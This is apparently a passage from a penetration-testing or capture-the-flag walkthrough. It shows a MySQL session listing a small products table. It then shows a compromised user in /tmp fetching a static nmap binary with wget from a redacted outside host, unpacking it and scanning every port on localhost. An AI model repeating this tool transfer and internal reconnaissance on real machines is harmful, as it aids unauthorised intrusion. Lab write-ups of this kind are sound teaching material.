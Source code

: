 ```bash
3 rows in set (0.01 sec)

mysql> use app;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------+
| Tables_in_app |
+---------------+
| products      |
+---------------+
1 row in set (0.00 sec)

mysql> select * from products;
+----+-------------+-------+
| id | product     | stock |
+----+-------------+-------+
|  1 | Black Shirt |     4 |
|  2 | Grey Scarf  |    12 |
|  3 | Pink Hat    |     2 |
+----+-------------+-------+
3  rows in set (0.00 sec)

mysql> exit
Bye
```

```bash
ada@...:/tmp$ wget http://xx.xxx.xx.xxx:8888/nmap-x64.tar.gz -o nmap
```

```bash
ada@...:/tmp$ tar -xzf nmap-x64.tar.gz
```

```bash
ada@...:/tmp$ ./nmap -sT -p- 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2025-09-xx xx:xx UTC
Nmap scan report for 127.0.0.1 (127.0.0.1)
Host is up (0.00014s latency).
rDNS record for 127.0.0.1: localhost
Not shown: 65531 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 3.01 seconds
```
